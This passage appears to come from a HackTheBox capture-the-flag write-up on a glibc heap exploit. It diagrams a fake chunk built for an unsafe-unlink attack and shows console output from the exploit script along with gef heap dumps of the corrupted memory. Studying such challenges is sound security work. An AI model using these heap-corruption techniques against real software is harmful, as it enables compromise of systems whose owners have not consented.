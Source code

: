 The fake chunk, if seen visually looks like:-

```r
-------------------------------------
|    0                  |     0     |
-------------------------------------
|          global_ptr - 0x18        |
-------------------------------------
|          global_ptr - 0x10        |
-------------------------------------
|                                   |
|              XXXXXXXXXX           |
|                                   |
-------------------------------------
|   0x80         |         0x90     |
------------------------------------
```

Now, running the exploit:-

```r
0 [08:31:09] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2777
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Paused [Press any key to continue]
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00                           |........|
[*] Editing chunk 3 with a fakr chunk

[..snip..]


gef➤  heap chunks
Chunk(addr=0x230a010, size=0x90, flags=PREV_INUSE)
    [0x000000000230a010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x230a0a0, size=0x90, flags=PREV_INUSE)
    [0x000000000230a0a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x230a130, size=0x90, flags=PREV_INUSE)
    [0x000000000230a130     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x230a1c0, size=0x90, flags=PREV_INUSE)
    [0x000000000230a1c0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x230a250, size=0x90, flags=)
    [0x000000000230a250     45 45 45 45 45 45 45 45 45 45 45 45 45 45 45 45    EEEEEEEEEEEEEEEE]

gef➤  x/49xg 0x230a1c0 - 0x10
0x230a1b0:	0x4343434343434343	0x0000000000000091
0x230a1c0:	0x0000000000000000	0x0000000000000000
0x230a1d0:	0x00000000006020c0	0x00000000006020c8
0x230a1e0:	0x5858585858585858	0x5858585858585858
0x230a1f0:	0x5858585858585858	0x5858585858585858
0x230a200:	0x5858585858585858	0x5858585858585858
0x230a210:	0x5858585858585858	0x5858585858585858
0x230a220:	0x5858585858585858	0x5858585858585858
0x230a230:	0x5858585858585858	0x5858585858585858
```